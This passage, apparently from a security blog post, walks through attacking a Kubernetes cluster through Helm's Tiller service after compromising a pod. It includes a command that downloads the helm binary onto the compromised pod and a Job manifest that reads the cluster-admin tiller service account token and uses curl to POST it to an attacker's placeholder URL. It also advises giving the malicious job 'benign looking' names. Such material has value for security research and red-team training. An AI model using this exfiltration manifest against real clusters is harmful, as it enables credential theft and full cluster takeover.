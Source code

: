 On our compromised pod, we can download the `helm` binary from the [official releases](https://github.com/helm/helm/releases). To download and extract to /tmp:

```bash
export HVER=v2.11.0 #you may need different version
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${HVER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C /tmp linux-amd64/helm
```

Note: You may need to download specific versions to match up the version running in the server. You'll see error messages telling you what version to get.

The `helm` binary allows us to specify a direct address to Tiller with `--host` or with the `HELM_HOST` environment variable. By plugging in the discovered tiller-deploy service's FQDN, we can directly communicate with the Tiller pod and run arbitrary Helm commands. For example, we can see our previously installed Wordpress release!

![helm_ls](/images/2019/01/helm_ls_status.png)

From here, we have full control of Tiller. We can do anything a cluster admin could normally do with Helm, including installing/upgrading/deleting releases. But we still can't "directly" talk to the Kubernetes API, so let's abuse Tiller to upgrade our privileges and become full cluster admin.

# Stealing secrets with Helm and Tiller
Tiller is configured with a service account that has cluster admin privileges. This means that the pod is using a secret, privileged service token to authenticate with the Kubernetes API. Service accounts are generally only used for "non-human" interactions with the k8s API, however anyone in possession of the secret token can still use it. If an attacker compromises Tiller's service account token, he or she can execute any Kubernetes API call with full admin privileges.

Unfortunately, the Helm API doesn't support direct querying of secrets or other resources. Using Helm, we can only create new releases from chart templates. 

Chart templates are very well [documented](https://docs.helm.sh/chart_template_guide/) and allow us to template out custom resources to deploy to Kubernetes. So we just need to craft a resource in a way to exfiltrate the secret(s) we want.

## Stealing a service account token
When the service account name is known, stealing its token is fairly straightforward. All that is needed is to launch a pod with that service account, then read the value from `/var/run/secrets/kubernetes.io/serviceaccount/token`, where the token value gets mounted at creation. It's possible to just define a job to read the value and use `curl` to POST it to a listening URL:

```yaml
apiVersion: batch/v1
kind: Job
metadata:
  name: tiller-deployer # something benign looking
  namespace: kube-system
spec:
  template:
    spec:
      serviceAccountName: tiller # hardcoded service account name
      containers:
        - name: tiller-deployer # something benign looking
          image: byrnedo/alpine-curl
          command: ["curl"]
          args: ["-d", "@/var/run/secrets/kubernetes.io/serviceaccount/token", "$(EXFIL_URL)"]
          env:
            - name: EXFIL_URL
              value: "https://<listening_url>" # replace URL here
      restartPolicy: Never
  backoffLimit: 5
```
